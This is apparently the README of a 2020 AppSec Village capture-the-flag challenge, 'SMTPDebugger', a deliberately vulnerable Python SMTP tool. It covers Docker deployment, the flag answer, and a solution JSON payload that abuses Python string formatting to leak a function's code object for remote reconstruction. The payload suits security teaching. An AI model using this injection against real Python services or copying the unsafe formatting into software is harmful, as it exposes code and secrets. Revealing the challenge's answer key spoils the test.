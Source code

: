 # StuckOverflow
**[AppSec Village CTF Task Fight 2020]** SMTPDebugger

![Challenge Description](resources/img/description.png)
_________________________________________________________

### Challenge Storyline
a Company created a Debugger APP for SMTP.  
The mission is to get the flag by reviewing the vulnerable part of the application and calling the function **get_flag**.

### Challenge Design
The challenge components are:  
* load-balancer (Nginx Load Balancer)  
* challenge (Socat - Forked Python Process)  

![Challenge Diagram](resources/img/diagram.png)

### Challenge Purpose
* Code Review  
* Learn how dangerous python string formats are  
* Learn how to recreate python code remotely using code objects  

### Challenge Deployment
1) Deploy the app: docker-compose up --build -d
2) For Scaling: docker-compose scale challenge=3

### Challenge Solution
1) Execute solution.py (tested with python3)
   ```bash
   python solution.py -s {HOST} -p {PORT}
   ```
   * Example: `python solution.py -s localhost.realgame.co.il -p 3780`
2) You got the flag: **CTF{F0rmat_plus_C0d3_Obj3ct_Equ4l5_Flag}**

The exploit send this JSON to the server:  
```javascript
{"from_addr": "from@addr.com", "to_addrs": "to@addr.com", "subject": "subject", "message": "co_argcount={email.get_flag.__code__.co_argcount};co_cellvars={email.get_flag.__code__.co_cellvars};co_code={email.get_flag.__code__.co_code};co_consts={email.get_flag.__code__.co_consts};co_filename='{email.get_flag.__code__.co_filename}';co_firstlineno={email.get_flag.__code__.co_firstlineno};co_flags={email.get_flag.__code__.co_flags};co_freevars={email.get_flag.__code__.co_freevars};co_kwonlyargcount={email.get_flag.__code__.co_kwonlyargcount};co_lnotab={email.get_flag.__code__.co_lnotab};co_name='{email.get_flag.__code__.co_name}';co_names={email.get_flag.__code__.co_names};co_nlocals={email.get_flag.__code__.co_nlocals};co_stacksize={email.get_flag.__code__.co_stacksize};co_varnames={email.get_flag.__code__.co_varnames};"}
```
In response it will get a the whole SMTP message,  
The message body will contain all the arguments of the code object...  
With those arguments it will create code object and replace the code of the current **get_flag** function.  

### Notes
Don't forget to upload **SMTPDebugger.py** to CTFd, it's the same as challenge but without the flag...  
